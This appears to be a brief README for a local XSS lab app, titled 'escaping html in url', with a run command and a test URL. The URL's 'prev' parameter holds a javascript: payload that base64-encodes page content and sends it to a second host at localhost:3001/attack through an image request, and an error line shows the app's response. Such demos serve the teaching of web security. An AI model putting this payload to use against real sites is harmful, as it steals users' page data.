 # XSS (escaping html in url)

## How to run
`node index.js`

## test with
http://localhost:3000/?prev=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(stat.innerHTML)}`,0/

When 'Back to Control HQ' is clicked on
"Cannot GET /javascript:(new%20Image().src)=%60http://localhost:3001/attack/$%7Bbtoa(stat.innerHTML)%7D%60,0//en").
